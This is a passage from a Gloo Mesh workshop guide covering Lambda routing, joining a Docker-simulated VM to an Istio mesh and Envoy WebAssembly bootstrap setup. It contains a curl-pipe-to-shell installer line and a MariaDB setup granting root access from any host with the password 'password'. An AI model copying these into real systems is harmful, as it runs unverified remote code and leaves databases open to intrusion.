  it('Amazon EKS pod identity webhook is ready in cluster1', () => helpers.checkDeployment({ context: process.env.CLUSTER1, namespace: "default", k8sObj: "pod-identity-webhook" }));
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/deploy-amazon-pod-identity-webhook/tests/pods-available.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 26 - Execute Lambda functions <a name="lab-26---execute-lambda-functions-"></a>
[](https://youtu.be/gD6GLMlP-Qc "Video Link")

First of all, you need to annotate the service account used by the Istio ingress gateway to allow it to assume an AWS role which can invoke the `echo` Lambda function:

```bash
kubectl --context ${CLUSTER1} -n istio-gateways annotate sa -l istio=ingressgateway "eks.amazonaws.com/role-arn=arn:aws:iam::253915036081:role/lambda-workshop"
kubectl --context ${CLUSTER1} -n istio-gateways rollout restart deploy $(kubectl --context ${CLUSTER1} -n istio-gateways get deploy -l istio=ingressgateway -o jsonpath='{.items[0].metadata.name}')
```

Then, you can create a `CloudProvider` object corresponding to the AWS role:

```bash
kubectl apply --context ${MGMT} -f - <<EOF

apiVersion: infrastructure.gloo.solo.io/v2
kind: CloudProvider
metadata:
  name: aws
  namespace: gloo-mesh
spec:
  aws:
    stsEndpoint: sts.amazonaws.com
    accountId: "253915036081"
    region: eu-west-1
    lambda:
      invokeRoleName: lambda-workshop
      discovery:
        enabled: true
        roleName: lambda-workshop
EOF
```
Now you need to annotate the service account used by the mgmt server, so it can discover existing lambdas:

```bash
kubectl --context ${MGMT} -n gloo-mesh annotate sa -l app=gloo-mesh-mgmt-server "eks.amazonaws.com/role-arn=arn:aws:iam::253915036081:role/lambda-workshop"
kubectl --context ${MGMT} -n gloo-mesh rollout restart deploy gloo-mesh-mgmt-server
```

After a few seconds, `CloudResources` objects will be created with the discovered Lambda functions.

Finally, you can create a `RouteTable` to expose the `echo` Lambda function through the gateway:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: aws
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
  - name: lambda
    matchers:
    - uri:
        prefix: /lambda
    labels:
      route: lambda
    forwardTo:
      destinations:
      - awsLambda:
          cloudProvider:
            name: aws
            namespace: gloo-mesh
            cluster: mgmt
          function: workshop-echo
          options:
            responseTransformation: RESPONSE_DISABLE
EOF
```

The `echo` lambda function is a simple Node.js function returning the even it receives:

```,nocopy
exports.handler = async (event) => {
    return event;
};
```

You should now be able to invoke the Lambda function using the following command:

```bash
curl -k "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/lambda" | jq .
```

You should get a response like below:

```js,nocopy
{
  "headers": {
    ":authority": "172.19.2.1",
    ":method": "GET",
    ":path": "/lambda",
    ":scheme": "https",
    "accept": "*/*",
    "user-agent": "curl/7.81.0",
    "x-envoy-decorator-operation": "dummy-route-o4bo-WppHSxD6Ox2.badHost.solo.io:8443/lambda*",
    "x-envoy-internal": "true",
    "x-envoy-peer-metadata": "ChQKDkFQUF9DT05UQUlORVJTEgIaAAoYCgpDTFVTVEVSX0lEEgoaCGNsdXN0ZXIxCh0KDElOU1RBTkNFX0lQUxINGgsxMC4xMDIuMC4zMAoeCg1JU1RJT19WRVJTSU9OEg0aCzEuMTUuNC1zb2xvCrkDCgZMQUJFTFMSrgMqqwMKHQoDYXBwEhYaFGlzdGlvLWluZ3Jlc3NnYXRld2F5CjYKKWluc3RhbGwub3BlcmF0b3IuaXN0aW8uaW8vb3duaW5nLXJlc291cmNlEgkaB3Vua25vd24KGQoFaXN0aW8SEBoOaW5ncmVzc2dhdGV3YXkKFgoMaXN0aW8uaW8vcmV2EgYaBDEtMTUKMAobb3BlcmF0b3IuaXN0aW8uaW8vY29tcG9uZW50EhEaD0luZ3Jlc3NHYXRld2F5cwohChFwb2QtdGVtcGxhdGUtaGFzaBIMGgo1ZjU1NjVmNjU0ChIKCHJldmlzaW9uEgYaBDEtMTUKOQofc2VydmljZS5pc3Rpby5pby9jYW5vbmljYWwtbmFtZRIWGhRpc3Rpby1pbmdyZXNzZ2F0ZXdheQovCiNzZXJ2aWNlLmlzdGlvLmlvL2Nhbm9uaWNhbC1yZXZpc2lvbhIIGgZsYXRlc3QKIQoXc2lkZWNhci5pc3Rpby5pby9pbmplY3QSBhoEdHJ1ZQonChl0b3BvbG9neS5pc3Rpby5pby9uZXR3b3JrEgoaCGNsdXN0ZXIxChIKB01FU0hfSUQSBxoFbWVzaDEKNAoETkFNRRIsGippc3Rpby1pbmdyZXNzZ2F0ZXdheS0xLTE1LTVmNTU2NWY2NTQtbXBkdzUKHQoJTkFNRVNQQUNFEhAaDmlzdGlvLWdhdGV3YXlzCmQKBU9XTkVSElsaWWt1YmVybmV0ZXM6Ly9hcGlzL2FwcHMvdjEvbmFtZXNwYWNlcy9pc3Rpby1nYXRld2F5cy9kZXBsb3ltZW50cy9pc3Rpby1pbmdyZXNzZ2F0ZXdheS0xLTE1ChcKEVBMQVRGT1JNX01FVEFEQVRBEgIqAAosCg1XT1JLTE9BRF9OQU1FEhsaGWlzdGlvLWluZ3Jlc3NnYXRld2F5LTEtMTU=",
    "x-envoy-peer-metadata-id": "router~10.102.0.30~istio-ingressgateway-1-15-5f5565f654-mpdw5.istio-gateways~istio-gateways.svc.cluster.local",
    "x-forwarded-for": "10.102.0.1",
    "x-forwarded-proto": "https",
    "x-request-id": "79cccfc1-beab-4249-b6ad-d71a410aff5f"
  },
  "httpMethod": "GET",
  "path": "/lambda",
  "queryString": ""
}
```

It's very similar to what the `httpbin` application provides. It displays information about the request is has received.
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Lambda integration is working properly", () => {
  it('Checking text \'"path":"/lambda"\' in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/lambda', body: '"path":"/lambda"', match: true }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/httpbin/gateway-lambda/tests/check-lambda-echo.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->
But when a Lambda function is exposed through an AWS API Gateway, the response of the function should be in a specific format (see this [example](https://docs.aws.amazon.com/apigateway/latest/developerguide/api-gateway-create-api-as-simple-proxy-for-lambda.html)).

The Gloo Gateway integration has the ability to understand this format and to process the response in the same way an AWS API gateway would.

Here is the Node.js Lambda function we're going to use to demonstrate this capability:

```js,nocopy
export const handler = async(event) => {
    const response = {
        "statusCode": 201,
        "headers": {
            "key": "value"
        },
        "isBase64Encoded": false,
        "multiValueHeaders": { 
            "X-Custom-Header": ["My value", "My other value"],
        },
        "body": JSON.stringify({TotalCodeSize: 104330022,FunctionCount: 26})
    }
    return response;
};
```
Let's update the `RouteTable`:
```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: aws
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
  - name: lambda
    matchers:
    - uri:
        prefix: /lambda
    labels:
      route: lambda
    forwardTo:
      destinations:
      - awsLambda:
          cloudProvider:
            name: aws
            namespace: gloo-mesh
            cluster: mgmt
          function: workshop-api-gateway
          options:
            responseTransformation: RESPONSE_DEFAULT
EOF
```

The `RESPONSE_DEFAULT` instructs Gloo Gateway to parse the response differently.

You should now be able to invoke the Lambda function using the following command:

```sh
curl -k "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/lambda"
```

You should get a response like below:

```js,nocopy
{
  "TotalCodeSize": 104330022,
  "FunctionCount": 26
}
```

Now, let's have a look at the response headers:

```sh
curl -k "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/lambda" -I
```

You should get a response like below:

```js,nocopy
HTTP/2 201 
content-type: application/json
key: value
x-custom-header: My value,My other value
content-length: 55
date: Fri, 13 Jan 2023 10:37:54 GMT
server: istio-envoy
```

You can see the `key` and `x-custom-header` added by the Lambda function.
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Lambda integration is working properly", () => {
  it('Checking text \'"TotalCodeSize": 104330022\' in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/lambda', body: '"TotalCodeSize": 104330022', match: true }));
  it('Checking headers in ' + process.env.CLUSTER1, () => helpersHttp.checkHeaders({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/lambda', expectedHeaders: [{key: "key", value: "value"}, {key: "x-custom-header", value: "My value,My other value"}], match: true }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/httpbin/gateway-lambda/tests/check-lambda-api-gateway.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Let's remove the annotation and restart the pods:

```bash
kubectl --context ${CLUSTER1} -n istio-gateways annotate sa -l istio=ingressgateway "eks.amazonaws.com/role-arn-"
kubectl --context ${CLUSTER1} -n istio-gateways rollout restart deploy $(kubectl --context ${CLUSTER1} -n istio-gateways get deploy -l istio=ingressgateway -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${MGMT} -n gloo-mesh annotate sa -l app=gloo-mesh-mgmt-server "eks.amazonaws.com/role-arn-"
kubectl --context ${MGMT} -n gloo-mesh rollout restart deploy gloo-mesh-mgmt-server
```

And also delete the different objects we've created:

```bash
kubectl --context ${MGMT} -n gloo-mesh delete cloudprovider aws
```


## Lab 27 - VM integration <a name="lab-27---vm-integration-"></a>

Let's see how we can configure a VM to be part of the Mesh.

To make it easier (and more fun), we'll use a Docker container to simulate a VM.

First of all, we need to define a few environment variables:

```bash
export VM_APP="vm1"
VM_NAMESPACE="virtualmachines"
WORK_DIR="vm1"
SERVICE_ACCOUNT="vm1-sa"
CLUSTER_NETWORK=$(kubectl --context ${CLUSTER1} -n istio-gateways get svc -l istio=eastwestgateway -ojson | jq -r '.items[0].metadata.labels["topology.istio.io/network"]')
VM_NETWORK="vm-network"
CLUSTER="${CLUSTER1}"
```

Then, we need to create a directory where we'll store all the files that need to be used in our VM:

```bash
rm -rf ${WORK_DIR}
mkdir -p ${WORK_DIR}
```

Expose the port 15012 and 15017 of istiod through the Istio Ingress Gateway:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.istio.io/v1beta1
kind: Gateway
metadata:
  name: istiod-gateway
  namespace: istio-gateways
spec:
  selector:
    istio: eastwestgateway
  servers:
    - port:
        name: tcp-istiod
        number: 15012
        protocol: TCP
      hosts:
        - "*"
    - port:
        name: tcp-istiodwebhook
        number: 15017
        protocol: TCP
      hosts:
        - "*"
---
apiVersion: networking.istio.io/v1beta1
kind: VirtualService
metadata:
  name: istiod-vs
  namespace: istio-gateways
spec:
  hosts:
  - istiod-1-17.istio-system.svc.cluster.local
  gateways:
  - istiod-gateway
  tcp:
  - match:
    - port: 15012
    route:
    - destination:
        host: istiod-1-17.istio-system.svc.cluster.local
        port:
          number: 15012
  - match:
    - port: 15017
    route:
    - destination:
        host: istiod-1-17.istio-system.svc.cluster.local
        port:
          number: 443
---
apiVersion: networking.istio.io/v1beta1
kind: DestinationRule
metadata:
  name: istiod-dr
  namespace: istio-gateways
spec:
  host: istiod-1-17.istio-system.svc.cluster.local
  trafficPolicy:
    portLevelSettings:
    - port:
        number: 15012
      tls:
        mode: DISABLE
    - port:
        number: 15017
      tls:
        mode: DISABLE

EOF
```

Create a Gateway resource that allows application traffic from the VMs to route correctly:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.istio.io/v1beta1
kind: Gateway
metadata:
  name: cross-network-gateway
  namespace: istio-gateways
spec:
  selector:
    istio: eastwestgateway
  servers:
  - port:
      number: 15443
      name: tls
      protocol: TLS
    tls:
      mode: AUTO_PASSTHROUGH
    hosts:
    - "*.local"
EOF
```

Create the namespace that will host the virtual machine:

```bash
kubectl --context ${CLUSTER1} create namespace "${VM_NAMESPACE}"
```

Create a serviceaccount for the virtual machine:

```bash
kubectl --context ${CLUSTER1} create serviceaccount "${SERVICE_ACCOUNT}" -n "${VM_NAMESPACE}"
```

Create a the WorkloadGroup yaml for the VM:

```bash
cat <<EOF > workloadgroup.yaml
apiVersion: networking.istio.io/v1alpha3
kind: WorkloadGroup
metadata:
  name: "${VM_APP}"
  namespace: "${VM_NAMESPACE}"
spec:
  metadata:
    labels:
      app: "${VM_APP}"
  template:
    serviceAccount: "${SERVICE_ACCOUNT}"
    network: "${VM_NETWORK}"
EOF
```

Download istio 1.17.3:

```bash
export ISTIO_VERSION=1.17.3
curl -L https://istio.io/downloadIstio | sh -
```

Use the istioctl x workload entry command to generate:

- cluster.env: Contains metadata that identifies what namespace, service account, network CIDR and (optionally) what inbound ports to capture.
- istio-token: A Kubernetes token used to get certs from the CA.
- mesh.yaml: Provides additional Istio metadata including, network name, trust domain and other values.
- root-cert.pem: The root certificate used to authenticate.
- hosts: An addendum to /etc/hosts that the proxy will use to reach istiod for xDS.*

```bash
./istio-1.17.3/bin/istioctl --context ${CLUSTER1} x workload entry configure -f workloadgroup.yaml -o "${WORK_DIR}" --clusterID "${CLUSTER}" -r 1-17
```

Run a Docker container that we'll use to simulate a VM:

```bash
docker run -d --name vm1 --network kind --privileged -v `pwd`/vm1:/vm ubuntu:18.04 bash -c 'sleep 360000'
```

Install the dependencies:

```bash
docker exec vm1 apt update -y
docker exec vm1 apt-get install -y iputils-ping curl iproute2 iptables python sudo
```

Create routes to allow the VM to access the Pods on the 2 Kubernetes clusters:

```bash
cluster1_cidr=$(kubectl --context ${CLUSTER1} -n kube-system get pod -l component=kube-controller-manager -o jsonpath='{.items[0].spec.containers[0].command}' | jq -r '.[] | select(. | startswith("--cluster-cidr="))' | cut -d= -f2)
cluster2_cidr=$(kubectl --context ${CLUSTER2} -n kube-system get pod -l component=kube-controller-manager -o jsonpath='{.items[0].spec.containers[0].command}' | jq -r '.[] | select(. | startswith("--cluster-cidr="))' | cut -d= -f2)

docker exec vm1 $(kubectl --context ${CLUSTER1} get nodes -o=jsonpath='{range .items[*]}{"ip route add "}{"'${cluster1_cidr}' via "}{.status.addresses[?(@.type=="InternalIP")].address}{"\n"}{end}')
docker exec vm1 $(kubectl --context ${CLUSTER2} get nodes -o=jsonpath='{range .items[*]}{"ip route add "}{"'${cluster2_cidr}' via "}{.status.addresses[?(@.type=="InternalIP")].address}{"\n"}{end}')
```

Add an entry in the hosts file to resolve the address of istiod by the IP address of the Istio Ingress Gateway:

```bash
echo "$(kubectl --context ${CLUSTER1} -n istio-gateways get svc istio-eastwestgateway -o jsonpath='{.status.loadBalancer.ingress[0].*}') istiod.istio-system.svc istiod-1-17.istio-system.svc" > "${WORK_DIR}"/hosts
```

Install the root certificate at /var/run/secrets/istio:

```bash
docker exec vm1 mkdir -p /etc/certs
docker exec vm1 cp /vm/root-cert.pem /etc/certs/root-cert.pem
```

Install the token at /var/run/secrets/tokens:

```bash
docker exec vm1 mkdir -p /var/run/secrets/tokens
docker exec vm1 cp /vm/istio-token /var/run/secrets/tokens/istio-token
```

Install the deb package containing the Istio virtual machine integration runtime:

```bash
docker exec vm1 curl -LO https://storage.googleapis.com/istio-release/releases/1.17.3/deb/istio-sidecar.deb
docker exec vm1 dpkg -i istio-sidecar.deb
```

Install cluster.env within the directory /var/lib/istio/envoy/:

```bash
docker exec vm1 cp /vm/cluster.env /var/lib/istio/envoy/cluster.env
```

Install the Mesh Config to /etc/istio/config/mesh:

```bash
docker exec vm1 cp /vm/mesh.yaml /etc/istio/config/mesh
```

Add the istiod host to /etc/hosts:

```bash
docker exec vm1 bash -c 'cat /vm/hosts >> /etc/hosts'
```

Transfer ownership to the Istio proxy:

```bash
docker exec vm1 mkdir -p /etc/istio/proxy
docker exec vm1 chown -R istio-proxy /var/lib/istio /etc/certs /etc/istio/proxy /etc/istio/config /var/run/secrets /etc/certs/root-cert.pem
```

Update the DNS configuration:

```bash
docker exec vm1 bash -c "sed 's/127.0.0.11/8.8.8.8/' /etc/resolv.conf > /vm/resolv.conf"
docker exec vm1 cp /vm/resolv.conf /etc/resolv.conf
```

Start the Istio agent:

```bash
docker exec -d vm1 bash /usr/local/bin/istio-start.sh
```

Let's update the bookinfo `Workspace` to include the `virtualmachines` namespace of the first cluster:

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: bookinfo
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
    - name: virtualmachines
  - name: cluster2
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
EOF
```

Take a look at the Envoy clusters:

```bash
docker exec vm1 curl -v localhost:15000/clusters | grep productpage.bookinfo-frontends.svc.cluster.local
```

It should return several lines similar to the one below:

```
outbound|9080||productpage.bookinfo-frontends.svc.cluster.local::172.18.2.1:15443::cx_active::0
```

You can see that the IP address corresponds to the IP address of the Istio Ingress Gateway.

You should now be able to reach the product page application from the VM:

```bash
docker exec vm1 curl -I productpage.bookinfo-frontends.svc.cluster.local:9080/productpage
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("The VM should be able to access the productpage service", () => {
  const command = 'docker exec vm1 curl -s -o /dev/null -w "%{http_code}" productpage.bookinfo-frontends.svc.cluster.local:9080/productpage';
  it("Got the expected status code 200", () => helpers.genericCommand({ command: command, responseContains: "200" }));
})

EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/bookinfo/vm-integration/tests/vm-access-productpage.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Now, let's do the opposite and access an application running in the VM from a Pod.

Run the following command to start a web server:

```bash
docker exec -d vm1 python -m SimpleHTTPServer 9999
```

Get the IP address of the container and create the ServiceEntry and WorkloadEntry:

```bash
VM_IP=$(docker inspect vm1 | jq -r '.[0].NetworkSettings.Networks.kind.IPAddress')

cat <<EOF | kubectl --context ${CLUSTER1} apply -f -
apiVersion: networking.istio.io/v1beta1
kind: ServiceEntry
metadata:
  name: ${VM_APP}
  namespace: virtualmachines
spec:
  hosts:
  - ${VM_APP}.virtualmachines.svc.cluster.local
  location: MESH_INTERNAL
  ports:
  - number: 9999
    name: http-vm
    protocol: TCP
    targetPort: 9999
  resolution: STATIC
  workloadSelector:
    labels:
      app: ${VM_APP}
EOF

cat <<EOF | kubectl --context ${CLUSTER1} apply -f -
apiVersion: networking.istio.io/v1beta1
kind: WorkloadEntry
metadata:
  name: ${VM_APP}
  namespace: virtualmachines
spec:
  network: ${CLUSTER_NETWORK}
  address: ${VM_IP}
  labels:
    app: ${VM_APP}
  serviceAccount: ${SERVICE_ACCOUNT}
EOF
```

Try to access the app from the `productpage` Pod:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-frontends exec $(kubectl --context ${CLUSTER1} -n bookinfo-frontends get pods -l app=productpage -o jsonpath='{.items[0].metadata.name}') -- python -c "import requests; r = requests.get('http://${VM_APP}.virtualmachines.svc.cluster.local:9999'); print(r.text)"
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("The productpage service should be able to access the VM", () => {
  const podName = helpers.getOutputForCommand({ command: "kubectl -n bookinfo-frontends get pods -l app=productpage -o jsonpath='{.items[0].metadata.name}' --context " + process.env.CLUSTER1 }).replaceAll("'", "");
  const command = "kubectl -n bookinfo-frontends exec " + podName + " --context " + process.env.CLUSTER1 + " -- python -c \"import requests; r = requests.get('http://" + process.env.VM_APP + ".virtualmachines.svc.cluster.local:9999'); print(r.status_code)\"";
  it('Got the expected status code 200', () => helpers.genericCommand({ command: command, responseContains: "200" }));
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/bookinfo/vm-integration/tests/productpage-access-vm.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Finally, let's deploy MariaDB in the VM and configure the ratings service to use it as a backend.

```bash
docker exec vm1 apt-get update
docker exec vm1 apt-get install -y mariadb-server
```

We need to configure the database properly:

```bash
docker exec vm1 sed -i '/bind-address/c\bind-address  = 0.0.0.0' /etc/mysql/mariadb.conf.d/50-server.cnf
docker exec vm1 /etc/init.d/mysql start

docker exec -i vm1 mysql <<EOF
# Grant access to root
GRANT ALL PRIVILEGES ON *.* TO 'root'@'localhost' IDENTIFIED BY 'password' WITH GRANT OPTION;
# Grant root access to other IPs
CREATE USER 'root'@'%' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' WITH GRANT OPTION;
FLUSH PRIVILEGES;
SELECT host, user FROM mysql.user;
EOF

docker exec vm1 /etc/init.d/mysql restart
docker exec vm1 curl -LO https://raw.githubusercontent.com/istio/istio/release-1.16/samples/bookinfo/src/mysql/mysqldb-init.sql
docker exec vm1 sh -c 'mysql -u root -ppassword < mysqldb-init.sql'
```

We can check that the `ratings` table is correctly configured:

```bash
docker exec vm1 mysql -u root -ppassword test -e "select * from ratings;"
```

Let's update the ServiceEntry:

```bash
cat <<EOF | kubectl --context ${CLUSTER1} apply -f -
apiVersion: networking.istio.io/v1beta1
kind: ServiceEntry
metadata:
  name: ${VM_APP}
  namespace: virtualmachines
spec:
  hosts:
  - ${VM_APP}.virtualmachines.svc.cluster.local
  location: MESH_INTERNAL
  ports:
  - number: 3306
    name: tcp-db
    protocol: TCP
    targetPort: 3306
  resolution: STATIC
  workloadSelector:
    labels:
      app: ${VM_APP}
EOF
```

Deploy a new version of the ratings service that is using the database and scale down the current version:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-backends apply -f ./istio-1.17.3/samples/bookinfo/platform/kube/bookinfo-ratings-v2-mysql-vm.yaml
kubectl --context ${CLUSTER1} -n bookinfo-backends set env deploy/ratings-v2-mysql-vm MYSQL_DB_HOST=${VM_APP}.virtualmachines.svc.cluster.local
kubectl --context ${CLUSTER1} -n bookinfo-backends set serviceaccount deploy/ratings-v2-mysql-vm bookinfo-ratings
pod=$(kubectl --context ${CLUSTER1} -n bookinfo-backends get pods -l "app=ratings,version=v1" -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${CLUSTER1} -n bookinfo-backends scale deploy/ratings-v1 --replicas=0
kubectl --context ${CLUSTER1} -n bookinfo-backends wait --for=delete pod/$pod
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("The ratings service should use the database running on the VM", () => {
  it('Got reviews v2 with ratings in cluster1', () => helpers.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/productpage', body: 'color="black"', match: true }));
})

EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/bookinfo/vm-integration/tests/ratings-using-vm.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Let's delete the objects we've created:

```bash
kubectl --context ${CLUSTER1} -n istio-gateways delete gateways.networking.istio.io istiod-gateway
kubectl --context ${CLUSTER1} -n istio-gateways delete virtualservice istiod-vs
kubectl --context ${CLUSTER1} -n istio-gateways delete destinationrule istiod-dr
kubectl --context ${CLUSTER1} -n istio-gateways delete gateways.networking.istio.io cross-network-gateway
kubectl --context ${CLUSTER1} -n "${VM_NAMESPACE}" delete serviceaccount "${SERVICE_ACCOUNT}"
kubectl --context ${CLUSTER1} -n "${VM_NAMESPACE}" delete serviceentry ${VM_APP}
kubectl --context ${CLUSTER1} -n "${VM_NAMESPACE}" delete workloadentry ${VM_APP}
kubectl --context ${CLUSTER1} delete namespace "${VM_NAMESPACE}"
kubectl --context ${CLUSTER1} -n bookinfo-backends delete -f ./istio-1.17.3/samples/bookinfo/platform/kube/bookinfo-ratings-v2-mysql-vm.yaml
kubectl --context ${CLUSTER1} -n bookinfo-backends scale deploy/ratings-v1 --replicas=1
```

Let's apply the original Workspace:

```bash
kubectl apply --context ${MGMT} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: bookinfo
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
  - name: cluster2
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
EOF
```

And let's delete the Docker container which represents the VM:

```bash
docker rm -f vm1
```


## Lab 28 - Extend Envoy with WebAssembly <a name="lab-28---extend-envoy-with-webassembly-"></a>

WebAssembly (WASM) is the future of cloud-native infrastructure extensibility.

WASM is a safe, secure, and dynamic way of extending infrastructure with the language of your choice. WASM tool chains compile your code from any of the supported languages into a type-safe, binary format that can be loaded dynamically in a WASM sandbox/VM.

The Envoy Wasm filter is already available, but it's not ready for production use yet. More info available in [this Blog Post](https://www.solo.io/blog/the-state-of-webassembly-in-envoy-proxy/).

Both Gloo Edge and Istio are based on Envoy, so they can take advantage of WebAssembly.

One of the projects for working with WASM and Envoy proxy is [WebAssembly Hub](https://webassemblyhub.io/).

WebAssembly Hub is a meeting place for the community to share and consume WebAssembly Envoy extensions. You can easily search and find extensions that meet the functionality you want to add and give them a try.

The main advantage of building a Wasm Envoy filter is that you can manipulate requests (and responses) exactly the way it makes sense for your specific use cases.

Perhaps you want to gather some metrics only when the request contain specific headers, or you want to enrich the request by getting information from another API, it doesn't matter, you're now free to do exactly what you want.

The first decision you need to take is to decide which SDK (so which language) you want to use. SDKs are currently available for C++, AssemblyScript, RUST and TinyGo.

Not all the languages can be compiled to WebAssembly and don't expect that you'll be able to import any external packages (like the Amazon SDK).

So, you need to determine what you want your filter to do, look at what kind of packages you'll need (Regexp, ...) and check which one of the language you already know is matching your requirements.

### Prepare

Our Envoy instances will fetch their wasm filters from an envoy cluster that must be defined in the static bootstrap config. We must therefore perform a one-time operation to add the wasm-agent as a cluster in the Envoy bootstrap:

```bash
cat <<EOF | kubectl apply --context ${CLUSTER1} -f -
apiVersion: v1
kind: ConfigMap
metadata:
  name: gloo-mesh-custom-envoy-bootstrap
  namespace: bookinfo-backends
data:
  custom_bootstrap.json: |
    {
      "static_resources": {
        "clusters": [{
          "name": "gloo_mesh_agent_cluster",
          "type" : "STRICT_DNS",
          "connect_timeout": "1s",
          "lb_policy": "ROUND_ROBIN",
          "load_assignment": {
            "cluster_name": "gloo_mesh_agent_cluster",
            "endpoints": [{
              "lb_endpoints": [{
                "endpoint": {
                  "address":{
                    "socket_address": {
                      "address": "gloo-mesh-agent.gloo-mesh.svc.cluster.local",
                      "port_value": 9977
                    }
                  }
                }
              }]
            }]
          },
          "circuit_breakers": {
            "thresholds": [
              {
                "priority": "DEFAULT",
                "max_connections": 100000,
                "max_pending_requests": 100000,
                "max_requests": 100000
              },
              {
                "priority": "HIGH",
                "max_connections": 100000,
                "max_pending_requests": 100000,
                "max_requests": 100000
              }
            ]
          },
          "upstream_connection_options": {
            "tcp_keepalive": {
              "keepalive_time": 300
            }
          },
          "max_requests_per_connection": 1,
          "http2_protocol_options": { }
        }]
      }
    }

EOF

cat <<EOF | kubectl apply --context ${CLUSTER2} -f -
apiVersion: v1
kind: ConfigMap
metadata:
  name: gloo-mesh-custom-envoy-bootstrap
  namespace: bookinfo-backends
data:
  custom_bootstrap.json: |
    {
      "static_resources": {
        "clusters": [{
          "name": "gloo_mesh_agent_cluster",
          "type" : "STRICT_DNS",
          "connect_timeout": "1s",
          "lb_policy": "ROUND_ROBIN",
          "load_assignment": {
            "cluster_name": "gloo_mesh_agent_cluster",
            "endpoints": [{
              "lb_endpoints": [{
                "endpoint": {
                  "address":{
                    "socket_address": {
                      "address": "gloo-mesh-agent.gloo-mesh.svc.cluster.local",
                      "port_value": 9977
                    }
                  }
                }
              }]
            }]
          },
          "circuit_breakers": {
            "thresholds": [
              {
                "priority": "DEFAULT",
                "max_connections": 100000,
                "max_pending_requests": 100000,
                "max_requests": 100000
              },
              {
                "priority": "HIGH",
                "max_connections": 100000,
                "max_pending_requests": 100000,
                "max_requests": 100000
              }
            ]
          },
          "upstream_connection_options": {
            "tcp_keepalive": {
              "keepalive_time": 300
            }
          },
          "max_requests_per_connection": 1,
          "http2_protocol_options": { }
        }]
      }
    }

EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("ConfigMaps are created", () => {
    const clusters = [process.env.CLUSTER1, process.env.CLUSTER2];
    clusters.forEach(cluster => {
        it('Configmap is present in ' + cluster, () => helpers.k8sObjectIsPresent({ context: cluster, namespace: "bookinfo-backends", k8sType: "configmap", k8sObj: "gloo-mesh-custom-envoy-bootstrap" }));
    });
});

EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/bookinfo/web-assembly/tests/configmaps-created.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
